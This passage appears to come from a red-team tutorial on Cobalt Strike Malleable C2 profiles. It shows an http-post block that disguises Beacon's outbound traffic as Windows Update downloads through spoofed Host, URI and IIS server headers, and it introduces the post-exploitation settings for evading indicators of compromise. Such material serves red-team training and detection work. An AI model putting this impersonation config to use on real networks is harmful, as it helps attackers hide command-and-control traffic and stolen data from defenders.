 **POST SECTION** :-

```c
http-post "Windows Updates" {
  
  set verb "POST";
  set uri "/c/msdownload/update/others/2016/12/3215234_";
  
  client {

    header "Accept" "*/*";

	#session ID 
	id {
      prepend "download.windows update.com/c/";
      header "Host";
    }
	
	#Beacon's responses 
	output { 
		base64url; 
		append ".cab"; 
		uri-append; 
		} 
	} 
	
	server { 
		header "Content-Type" "application/vnd.ms-cab-compressed";
		header "Server" "Microsoft-IIS/8.5"; 
		header "MSRegion" "N. America"; 
		header "Connection" "keep-alive"; 
		header "X-Powered-By" "ASP.NET"; 
		
		#empty 
		output { 
			print; 
			} 
		}
}
```

Again, like the GET section above, the POST section states how information should be sent in a POST request, it has the added benefit that specifics such as body content and other parameters can be set to enable you to blend in.


- Malleable C2 Profile Post Exploitation Section -

Customizing the GET and POST requests is just the beginning, the next few sections of the profile is where the magic of post exploitation customization lives including how the beacon looks in memory, how migration and beacon object files affect the indicators of compromise and much more. These sections are so important when running post commands within the beacons or how your payloads are injected into memory.
